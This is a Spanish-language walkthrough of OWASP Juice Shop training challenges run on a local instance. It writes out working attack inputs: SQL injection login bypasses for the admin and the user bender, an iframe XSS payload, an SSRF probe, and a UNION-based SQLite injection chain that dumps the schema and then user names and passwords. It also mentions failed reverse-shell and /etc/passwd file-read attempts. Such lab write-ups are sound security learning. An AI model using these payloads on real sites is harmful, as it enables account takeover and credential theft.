 ## Acceder a la cuenta del Admin gracias a una inyeccion SQL

Es uno de los primeros retos, consiste en loguearse en la cuenta del admin con una inyeccion sql básica.

Explicación -> la inyeccion consiste en poner en el panel de login, **' or 1=1-- -** que dice lo siguiente. 
*O el usuario es 'texto vacío' (NO) O 1=1 (SI)* Como es un OR, se da por vaĺido con que una de esas afirmaciones sea verdad (1=1).

Así que entramos a la cuenta del Admin porque esta inyeccion opera con el id de usaurio 1, que suele corresponder al admin
> Un id  es un índice en una tabla sql que corresponde a cada entrada, normalmente el administrador es el primero que se añade asi que tiene un 1.

------------------------------------------------------------------------

## Inyeccion XSS de Iframe

Un ataque XSS es inyectar código a un panel de javascript, resultando en que la web lo asimila como propio e interprete.
Este se suele probar por tanto con paneles, en este caso el más visible es el de "Search". probé la clásica
```<script> alert("XSS") </script>``` que crea una ventana emergente, no funciónó pero en la "scoreboard" ponía el que si funcianaría
```<iframe src="javascript:alert('XSS')">``` que es muy similar al "script src" tiene mucho sentido ya que la web carga un iframe todo el rato (si haces curl ves 
el código de este y no de su contenido)

Tambien, probé a intentar un ataque SSRF aprovechandome de este panel, un SSRF es hacer que el servidor mande una consulta a sí mismo, revelando
datos confidenciales. Como tira contra el localhost, cree un servidor con python ```sudo python -m http.server 80``` quedó la petición asi 
```<iframe src="http://127.0.0.1:8080">``` Haciendome un directory listing o filtrado de carpetas de mi porpio servidor.

Otras cosas que probé fue cargar de mi direccion un index.html con una reverse shell, pero el sistema me lo mostraba sin interpretarlo. Tampoco
funcionço un LFI al /etc/password local. Aun así tenemos un punto interesante para hacer consultas que pueda derivar de un SSRF (o consultas desde
el propio servidor)

------------------------------------------------------------------------

## Loguearse como Bender

Para registrarse como el usaurio "bender@juice-sh.op" se utiliza una inyeccion sql simple, similar a la que usamos para el admin,
```bender@juice-sh.op'-- -``` Lo que hace es cerrar la query email='bender@juice-sh.op' y comentar el resto para que ignore que hemos puesto
mal la contraseña.

------------------------------------------------------------------------

## SQLi a endpoint oculto

En el panel de busqueda de producto, probé una sqli, lo tipico de '  pero no funcionaba. Resulta que este ```"http://localhost:3000/#/search?q="```
no es el endpoint verdadero al que le hace la petición...
Cuando analizamos en "Red" la peticion (con ctrol derecho inspeccionar), vamos una petición GET a search?q= y le damos a abrir en una pestaña nueva 
nos sale ```"http://localhost:3000/rest/products/search?q="```, siendo este vulnerable (por algo estaba escondido)

**INYECCION**
```
# http://localhost:3000/rest/products/search?q='-- -    -> SQLite ERROR "incomplete input".
```
Dicho error se produce porque faltan parentesis asi que la query es algo como "SELECT * from 'tabla' where id=('nombre')", pero con un 
parentesis sigue dando error, asi que hay que poner dos. Nos filtra toda la tabla de productos. 
Si hacemos ctrl f para buscar "Crhistmas" obtenemos el id=10 que es el producto retirado navideño.

En el endpoint "/api/BasketItems" ponemos el id de producto 10 y le damos a hacer el pedido (siguiendo todos los pasos) nos dará el logro.

------------------------------------------------------------------------

## Filtrar toda la Databse

Primero tenemos que averiguar el numero de columnas
```
# http://localhost:3000/rest/products/search?q=search?q=')) order by 10-- -  Error number of columns
# http://localhost:3000/rest/products/search?q=search?q=')) order by 9-- - No error, o sea hay 9 columnas en la tabla en uso.
```

Si fuera un Maraidb la tabla maestra (tiene unformación sobre todas las tablas del servidor) seria "information_schema", 
pero en sqlite es "sqlite_master"-

```
# http://localhost:3000/rest/products/search?q=search?q=cucuxii')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM sqlite_master-- -
```
He puesto lo de cucuxii porque en productos no existe y solo nos mostrará la parte de sql_master, quitando todo el "ruido"
Para ver las bases de datos...
```
# http://localhost:3000/rest/products/search?q=search?q=cucuxii')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master-- -
```
Nos dice que hay una tabla users, y que entre otros, estan los campos "id", "username", "password"
Asi que...
```
# http://localhost:3000/rest/products/search?q=cucuxii')) UNION SELECT id,username,password,4,5,6,7,8,9 FROM Users-- -
```



